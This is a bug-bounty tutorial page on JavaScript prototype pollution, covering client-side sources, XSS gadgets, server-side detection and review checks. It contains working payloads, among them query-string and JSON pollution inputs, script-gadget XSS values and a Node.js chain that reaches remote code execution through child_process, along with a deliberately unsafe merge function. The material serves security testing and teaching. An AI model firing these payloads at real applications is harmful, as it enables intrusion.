

> Source: https://bugbounty.info/Attack-Surface/Web/Client-Side/Prototype-Pollution

# Prototype Pollution

Prototype pollution lets you inject properties into JavaScript object prototypes, which then propagate to every object in the application. On the client side, this typically chains into DOM XSS through script gadgets. On the server side (Node.js), it can escalate to RCE. It's underreported in bounties because most testers don't know how to take it from pollution to impact  -  the pollution itself is just the entry point.

## How Prototype Pollution Works



In JavaScript, every object inherits from `Object.prototype`. If you can write a property to `Object.prototype`, that property appears on all objects that don't explicitly define it. The key question is always: what reads from prototype, and what does it do with the value?

## Client-Side Prototype Pollution

### Source: URL Parameters

Many JavaScript libraries parse query strings or hash fragments into objects using recursive merge:

```text
https://target.com/page?__proto__[polluted]=true
https://target.com/page?__proto__.polluted=true
https://target.com/page?constructor[prototype][polluted]=true
https://target.com/page#__proto__[polluted]=true
```

Verify pollution landed:

```javascript
// In browser console after visiting the URL
Object.prototype.polluted  // should return "true"
```

### Source: JSON Input

APIs that merge user-supplied JSON into objects:

```json
{
  "user": "attacker",
  "__proto__": {
    "isAdmin": true
  }
}
```

Or using constructor:

```json
{
  "constructor": {
    "prototype": {
      "isAdmin": true
    }
  }
}
```

### Vulnerable Code Patterns

The root cause is almost always an unsafe recursive merge, extend, or clone function:

```javascript
// VULNERABLE  -  no prototype check
function merge(target, source) {
  for (let key in source) {
    if (typeof source[key] === 'object') {
      if (!target[key]) target[key] = {};
      merge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
}
 
// Attacker-controlled source with __proto__ key
merge({}, JSON.parse('{"__proto__": {"polluted": true}}'));
// Now Object.prototype.polluted === true
```

Libraries historically vulnerable: `lodash` (before 4.17.12), `jquery` ($.extend deep), `hoek`, `merge`, `deepmerge` (older versions), `qs` (query string parsing).

## From Pollution to XSS  -  Script Gadgets

Pollution alone is not a vulnerability. You need a **gadget**  -  application code that reads an undefined property from an object and uses it in a dangerous sink.

### Common Gadgets

```javascript
// Gadget 1: innerHTML from polluted property
element.innerHTML = config.template || '';
// Pollute: __proto__[template]=
 
// Gadget 2: script src
var url = settings.scriptUrl;
var s = document.createElement('script');
s.src = url;
// Pollute: __proto__[scriptUrl]=data:,alert(1)
 
// Gadget 3: jQuery html sink
$(element).html(options.content);
// Pollute: __proto__[content]=
 
// Gadget 4: event handler attribute
element.setAttribute(config.eventAttr || 'onclick', handler);
// Pollute: __proto__[eventAttr]=onmouseover
```

### Using DOM Invader (Burp)

DOM Invader automates finding PP sources and gadgets:

1. Open Burp's embedded browser
2. Enable DOM Invader from the browser extension toolbar
3. Enable "Prototype pollution" in DOM Invader settings
4. Browse the target  -  DOM Invader injects canary values via `__proto__`
5. Check the DOM Invader tab for confirmed pollutions and identified gadgets
6. Click "Scan for gadgets" to find properties that flow into sinks

## Server-Side Prototype Pollution (Node.js)

Server-side PP in Node.js/Express apps can escalate to RCE through different gadget chains:

### Detection  -  Status Code Technique

```http
POST /api/update HTTP/1.1
Host: target.com
Content-Type: application/json
 
{"__proto__": {"status": 510}}
```

If subsequent responses from the server return status code 510, the pollution landed in the Express response object.

### Detection  -  JSON Spaces Technique

```http
POST /api/update HTTP/1.1
Host: target.com
Content-Type: application/json
 
{"__proto__": {"json spaces": "  "}}
```

If subsequent JSON responses start being pretty-printed with 2-space indentation, pollution is confirmed. This works because Express checks `app.get('json spaces')` which falls through to prototype.

### Server-Side PP to RCE

```json
{
  "__proto__": {
    "shell": "/proc/self/exe",
    "argv0": "console.log(require('child_process').execSync('id').toString())",
    "NODE_OPTIONS": "--require /proc/self/cmdline"
  }
}
```

This chain works when `child_process.spawn` or `child_process.fork` is called after pollution, because spawned processes inherit the polluted `env` and `shell` properties.

## Manual Source Review

Search application JavaScript for these patterns:

```text
# Merge/extend/clone functions  -  primary sinks
grep -rn "function merge\|function extend\|function clone\|function deepCopy" .
grep -rn "Object.assign\|_.merge\|_.extend\|$.extend\|deepmerge" .
 
# Direct prototype access
grep -rn "__proto__\|constructor\[" .
 
# Property access without hasOwnProperty check
grep -rn "for.*in.*{" . | grep -v "hasOwnProperty"
```

## Checklist

- Test URL parameters with `__proto__[canary]=polluted` and verify in console
- Test `constructor[prototype][canary]=polluted` as alternative vector
- Test hash fragment: `#__proto__[canary]=polluted`
- Test JSON bodies with `__proto__` and `constructor.prototype` keys
- Run DOM Invader scan for gadgets on pages where pollution confirms
- Search JS source for unsafe merge/extend/clone/deepCopy functions
- Check for known vulnerable library versions (lodash, jQuery deep extend)
- For Node.js targets: test server-side PP via JSON spaces and status code techniques
- For each confirmed pollution, find a gadget that produces XSS or logic bypass
- Document the full chain: source (URL/JSON) -> pollution -> gadget -> impact

## Public Reports

- Prototype pollution to XSS on Shopify via lodash merge - [HackerOne #986386](https://hackerone.com/reports/986386)
- Prototype pollution in GitHub's Electron-based apps - [HackerOne #1444020](https://hackerone.com/reports/1444020)
- Server-side prototype pollution on HackerOne platform - [HackerOne #1271572](https://hackerone.com/reports/1271572)
- Prototype pollution leading to RCE in Kibana - [HackerOne #861744](https://hackerone.com/reports/861744)
- Client-side PP to DOM XSS on multiple Automattic properties - [HackerOne #1306797](https://hackerone.com/reports/1306797)

## See Also

- [DOM XSS](../../../Attack-Surface/Web/Injection/XSS/DOM-XSS)
- [SSRF](../../../Attack-Surface/Web/SSRF/)
- [Mass Assignment](../../../Attack-Surface/Web/Business-Logic/Mass-Assignment)
